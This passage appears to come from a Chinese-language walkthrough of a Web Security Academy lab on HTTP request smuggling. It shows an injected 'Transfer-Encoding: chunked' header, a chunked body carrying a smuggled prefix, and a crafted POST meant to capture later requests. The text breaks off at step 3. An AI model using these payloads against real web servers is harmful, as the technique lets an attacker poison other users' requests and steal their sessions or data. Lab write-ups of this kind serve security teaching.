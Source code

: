 ```c
bar\r\n
Transfer-Encoding: chunked
```

![img](assets/1706773318-4a6dbed49c51098bf7a5683caefa8aed.png)

Body 部分如下所示：

```c
0
SMUGGLED
```

随后我们可以看到发送的每第二个请求会收到一个 404 响应，由此可以确认我们已经让后端将后续请求附加到走私的前缀上

![img](assets/1706773318-242a19722bef32556f70c11d7599e990.png)

Step 3：随后构造如下请求数据包

```bash
0
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Content-Length: 800
search=x
```
